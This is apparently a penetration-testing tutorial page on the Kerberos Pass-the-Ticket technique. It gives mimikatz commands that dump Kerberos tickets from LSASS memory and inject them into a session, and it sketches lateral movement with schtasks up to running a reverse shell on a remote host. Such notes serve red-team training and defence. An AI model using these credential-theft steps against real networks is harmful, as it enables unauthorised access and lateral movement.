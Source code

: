 # Pass-the-Ticket (Kerberos)

This method aims to extract Kerberos tickets and session keys from _**LSASS**_ memory using mimikatz.. before using the stolen ticket to perform actions as the injected user. This process will usually require us to have _**SYSTEM**_ privileges on the machine.

We will start off with using mimikatz to extract all the Kerberos tickets present on the local machine:

```
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
```

While mimikatz can extract both the **Ticket Granting Ticket** (**TGT**) and **Ticket Granting Service** (**TGS**) available in the memory, we will mostly be interested in the **TGT**s as it allows us request to access to any service that our stolen user is allowed to access.

Once we have obtained our desired ticket (from the command shown above), we can inject the tickets into the current session:

{% code overflow="wrap" %}
```
mimikatz # kerberos::ptt xxxx@test.domain.kirbi
```
{% endcode %}

After running the command, we can exit from the `mimikatz` shell back to the command prompt. We can use the `klist` command to view the injected tickets:

```powershell
C:\> klist
```

Note that if we execute the `whoami` command, we will still see the original user we were using before performing the attack, but any commands executed from this session will use the injected credentials.

### Using the injected ticket

Now that we have injected the ticket, we can perform lateral movements as the injected user. For example, we can attempt to start a service on a target remote machine:

{% code overflow="wrap" %}
```powershell
C:\> schtasks /RU "SYSTEM" xxxx
```
{% endcode %}

A few basic conditions on the target machine must be in our favor :&#x20;

a. `schtasks` or any other desired tools are allowed

b. The injected user must be allowed to perform the desired actions (eg. in the `Administrators` group)

c. Kerberos authentication is used (instead of NTLM)

* this should not be an issue since Kerberos is the default for a domain environment
* however, other factors may cause Kerberos to fail: DNS issues, SPN lookup failure

If all goes well, we will be able to successfully execute remote commands (eg. reverse shell) on the target machine as the injected user; or in some cases, as `SYSTEM` (eg. `sc.exe` which by default runs as `SYSTEM` ).


